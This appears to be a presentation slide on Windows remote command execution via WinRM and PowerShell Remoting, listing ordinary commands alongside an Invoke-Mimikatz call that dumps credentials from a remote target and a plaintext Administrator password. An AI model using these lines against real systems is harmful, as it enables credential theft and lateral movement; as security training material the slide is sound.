

# Command Line Usage
Open necessary firewall rules for the current user on the local machine
(cmd) winrm quickconfig
(ps) Enable-PSRemoting -Force
Execute command on remote machine
(cmd) winrs -r:[remote_sys] cmd.exe
(ps) Invoke-Command -ComputerName [remote_sys] -ScriptBlock { dir c:\ }
Note: You can import locally and execute remotely
Import-Module ./Invoke-Mimikatz.ps1
Invoke-Mimikatz -ComputerName TARGET
Open Powershell Session on Remote Machine
$cred = New-Object System.Management.Automation.PSCredential ‘Administrator’, (ConvertTo-SecureString -AsPlainText -Force ‘password’)
Enter-PSSession -ComputerName PDC -Credential $cred